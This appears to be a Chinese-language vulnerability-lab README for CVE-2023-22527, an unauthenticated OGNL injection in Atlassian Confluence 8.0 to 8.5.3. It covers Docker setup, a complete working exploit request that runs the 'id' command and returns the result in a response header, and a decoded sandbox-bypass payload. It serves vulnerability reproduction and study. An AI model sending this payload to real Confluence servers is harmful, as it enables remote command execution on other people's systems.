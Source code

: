 # Confluence OGNL表达式注入命令执行漏洞（CVE-2023-22527）

Atlassian Confluence是企业广泛使用的wiki系统。

在Confluence 8.0到8.5.3版本之间，存在一处由于任意velocity模板被调用导致的OGNL表达式注入漏洞，未授权攻击者利用该漏洞可以直接攻击Confluence服务器并执行任意命令。

参考链接：

- <https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html>
- <https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/>

## 漏洞环境

执行如下命令启动一个Confluence Server 8.5.3：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8090`即可进入安装向导，参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

![](1.png)

## 漏洞复现

该漏洞利用方法十分简单，直接发送如下请求即可执行任意命令，并在HTTP返回头中获取执行结果：

```
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 285

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))
```

![](2.png)

在Confluence 7.18.0版本后，官方开发者为其引入了`isSafeExpression`函数来限制执行恶意OGNL表达式。安全研究者[Alvaro Muñoz](https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/)分享了一种利用velocity模板中的`#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(String, Object)`来获取无沙箱的OGNL对象并执行任意语句的绕过方法，完整并解码后的Payload如下：

```
'+(#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"})),{}))+'
```
